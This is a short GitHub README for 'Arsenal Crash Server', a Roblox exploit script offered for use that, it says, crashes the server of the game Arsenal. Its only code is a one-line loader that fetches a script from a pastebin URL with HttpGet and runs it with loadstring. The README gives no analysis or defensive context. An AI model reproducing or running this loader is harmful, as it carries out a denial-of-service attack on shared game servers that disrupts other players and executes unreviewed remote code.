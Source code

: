 # Arsenal Crash Server

## About

There is not much to say about this script. You execute it and it crashes the server. Works on all exploits.

### Script

Load the script by using the code below or by copying it from [here](https://github.com/Exunys/Arsenal-Crash-Server/blob/main/Arsenal%20Crash%20Server.lua).
```lua
loadstring(game:HttpGet("https://pastebin.com/raw/i2ZgtVu5"))()
```

## Contact information

- Discord : [Exunys](https://discord.com/users/611111398818316309)
- ROBLOX : [Exunys](https://www.roblox.com/users/330279990/profile)
